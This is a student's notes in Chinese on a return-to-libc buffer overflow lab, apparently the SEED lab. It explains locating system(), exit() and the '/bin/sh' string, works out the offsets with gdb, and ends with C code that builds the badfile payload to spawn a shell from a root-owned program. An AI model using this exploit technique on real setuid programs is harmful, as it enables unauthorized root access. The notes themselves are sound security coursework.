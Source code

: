 在之前编译 retlib.c 之后, 将文件所有者改为 root, 同时修改文件的读写权限. 

sudo 指令应该是在自己的用户环境下使用 root 权限; 如果直接使用 su, 则进入到 root 环境下. 

实验指导中给出了: `exit()` `system()` `/bin/sh` 三个东西,  `/bin/sh` 需要作为参数传入到 `system()` 方法中, 且 `/bin/sh` 存放在 `MYSELL` 变量中

::: warning `exit()` 方法的作用是什么?
它和 `system()` 方法之间的关系? 
:::

首先可以确定两个方法与 `MYSHELL` 变量的地址. 
``` sh
0xbffffe03  # "/bin/sh" 
0xb7e42da0  # system()  
0xb7e369d0  # exit() 
```
或
``` sh
0xbffffdef  # "/bin/sh" 
0xb7da4da0  # system()  
0xb7d989d0  # exit() 
```

那么主要的问题是如何确定 X Y Z ? 

先创建一个 badfile, 写入键盘顺序的 `1-0`, `q-p`, `a-;`, `z-/`, 总共四行 40 个字符. 之后在 gdb 中运行 retlib, 中间 code 部分会提示在 0x62206863 的位置存在问题, 对应的字符为 `ghjk`, 那么有 24 个字符被正常读取, 从第 24 开始 (0 计数) 出现了问题. 

::: warning BUF_SIZE 的大小为 12, 和这里的 24 有什么关系
?
:::

::: warning 如何选择 X Y Z
那么 X Y Z 是不是应该为 24 28 32 这三个数字的组合? 没人谈谈这个三个数字的故事么. 
:::

### 一个可能的答案

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
    char buf[40];
    FILE *badfile;
    badfile = fopen("./badfile", "w");
    /* You need to decide the addresses and
    the values for X, Y, Z. The order of the following three statements does not imply the order of X, Y, Z. Actually, we intentionally scrambled the order. */
    *(long *) &buf[32] = 0xbffffdef ; // "/bin/sh" 
    *(long *) &buf[24] = 0xb7da4da0 ; // system()  
    *(long *) &buf[28] = 0xb7d989d0 ; // exit() 
    // printf("%d\n", sizeof(long));
    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```
